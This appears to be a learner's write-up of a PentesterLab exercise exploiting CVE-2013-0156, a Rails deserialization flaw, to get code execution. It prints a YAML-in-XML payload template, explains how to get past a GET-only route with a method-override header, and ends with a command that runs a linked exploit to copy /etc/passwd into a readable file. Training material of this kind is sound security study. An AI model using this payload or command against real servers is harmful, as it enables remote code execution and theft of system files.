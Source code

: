 # Pentesterlab Serialize Badge/CVE-2013-0156: Rails Object Injection

> Saikat Karmakar | Sept 8 : 2021

---

## Introduction

This course details the exploitation of the vulnerability CVE-2013-0156. This vulnerability is caused by an arbitrary deserialization that can be used to trigger SQL injection and even Code execution. In this exercise, we are going to focus on the code execution.

## Exploitation

Multiple public exploits are available for this vulnerability. For example, the one located [here](https://gist.github.com/postmodern/4499206) can be used.

This exploit will generate a payload similar to the following request's body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<exploit type="yaml">--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection
? |
  foo
  (RUBY; @executed = true) unless @executed
  __END__
: !ruby/struct
  defaults:
    :action: create
    :controller: foos
  required_parts: []
  requirements:
    :action: create
    :controller: foos
  segment_keys:
    - :format</exploit>
```
Where RUBY is some arbitrary Ruby code.

The idea here is to create a new action with arbitrary code in it. By default, Rails doesn't support pure yaml in a request body. But it supports XML that can embeds YAML in it (this explains the first two lines of the payload). Finally, the @executed is used to ensure that the code is only run once.

We recommend you use the exploit above as copying and pasting the payload will break the syntax of the YAML. YAML is very sensitive to line-break and whitespaces. Here we can see that the YAML is used to run some Ruby code.

In our example, the application only contains one route that uses the GET method. However, the request needs to contain a body for the payload. To bypass this limitation, the header X-HTTP-Method-Override can be used. The exploit linked will do this automatically. You just need to find the right Ruby code to gain code execution.
Conclusion

This exercise showed you how to exploit CVE-2013-0156 to gain code execution on a server by adapting an exploit to your need. I hope you enjoyed learning with PentesterLab.

## Usage

```bash
ruby rails_rce.rb http://example.com/ "\`cp /etc/passwd file/pass.txt\`"
```